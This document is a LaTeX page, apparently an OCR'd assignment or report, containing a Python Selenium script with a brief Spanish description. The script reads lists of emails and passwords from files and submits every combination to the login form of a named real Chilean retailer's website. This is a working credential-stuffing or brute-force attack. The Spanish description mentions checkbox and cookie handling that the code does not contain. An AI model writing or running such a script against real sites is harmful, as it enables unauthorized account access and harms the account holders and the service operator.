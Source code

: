 \documentclass[]{article}
\begin{document}
\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    for contraseña in contraseñas:
        for correo in correos: 
            
            email = driver.find_element(By.ID, "email")
            email.clear()
            email.send_keys(correo)
            time.sleep(1)
            passw = driver.find_element(By.ID,"pass")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(1)
            driver.find_element(By.ID, "send2").click()
            time.sleep(2)
    driver.close()

\end{lstlisting}

\\\\
Al inicio del codigo, se utilizan funciones para poder leer los datos que fueron entregados mediante archivos, en donde se almacenó los correos
y contraseñas.

Posteriormente en el codigo se puede observar como se asocia el driver correspondiente al software, para posteriormente ir dando indicaciones, las cuales serán: 
\begin{itemize}
    \item Hacer click en botones. 
    \item Trabajar con Checkbox.
    \item Quitar Avisos de Cookies.
    \item Iniciar un Sleep, para permitirle al usuario interactuar con un Captcha.
    \item Ingresar Credenciales.
\end{itemize}
\end{document}

